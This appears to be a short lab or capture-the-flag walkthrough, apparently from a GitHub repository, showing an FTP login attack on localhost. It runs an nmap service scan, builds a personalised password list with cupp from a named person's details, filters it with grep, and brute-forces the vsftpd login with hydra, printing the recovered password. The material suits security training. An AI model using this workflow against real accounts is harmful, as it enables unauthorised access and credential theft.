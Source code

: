 ```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sSV -p21 localhost -T5

[SNIP]

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
```

**Login Brute Forcing**

```
┌──(nabla㉿kali)-[~]
└─$ cupp -i

[SNIP]

> First Name: Irene 
> Surname: Cassini

[SNIP]

> Do you want to add some key words about the victim? Y/[N]: N
> Do you want to add special chars at the end of words? Y/[N]: Y
> Do you want to add some random numbers at the end of words? Y/[N]:Y
> Leet mode? (i.e. leet = 1337) Y/[N]: Y

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to irene.txt, counting 5240 words.

┌──(nabla㉿kali)-[~]
└─$ wc -l irene.txt

5239 irene.txt

┌──(nabla㉿kali)-[~]
└─$ grep -E '^.{8,}$' irene.txt | grep -E '[0-9]' | grep -E '[!@#$%^&*]' > irene_filtered.txt

┌──(nabla㉿kali)-[~]
└─$ wc -l irene_filtered.txt

1894 irene_filtered.txt
```

```
┌──(nabla㉿kali)-[~]
└─$ hydra -l 'i.cassini' -P irene_filtered.txt ftp://localhost -f -t 64

[SNIP]

[21][ftp] host: localhost   login: i.cassini   password: 1r3n3!$%
```
